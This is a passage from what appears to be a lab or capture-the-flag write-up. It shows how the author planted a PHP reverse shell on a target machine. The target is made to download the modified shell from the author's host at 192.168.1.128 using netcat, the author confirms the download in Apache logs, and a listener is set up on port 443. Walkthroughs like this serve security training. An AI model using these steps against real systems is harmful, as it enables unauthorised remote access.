 First, I copied /usr/share/webshells/php/php-reverse-shell.php to /var/www/r.txt. I modified the file to connect to port 443 on my machine's IP address. Next, I ran the following command on the target:

```
printf "GET http://192.168.1.128/r.txt HTTP/1.0\r\n\r\n" > get.txt
```

->![](/images/2014-04-08/05.png)<-

Now it was a matter of redirecting that file to nc:

```
nc 192.168.1.128 80 < get.txt > r.php
```

A quick check in /var/log/apache2/access.log showed that the target downloaded the file:

```
192.168.1.159 - - [08/Apr/2014:11:40:09 -0400] "GET http://192.168.1.128/r.txt HTTP/1.0" 200 5775 "-" "-"
192.168.1.159 - - [08/Apr/2014:11:40:09 -0400] "GET http://192.168.1.128/r.txt HTTP/1.0" 200 5775 "-" "-"
```

Almost there. I setup a nc listener on my machine to listen on port 443 and loaded up r.php on the target to receive my reverse shell:
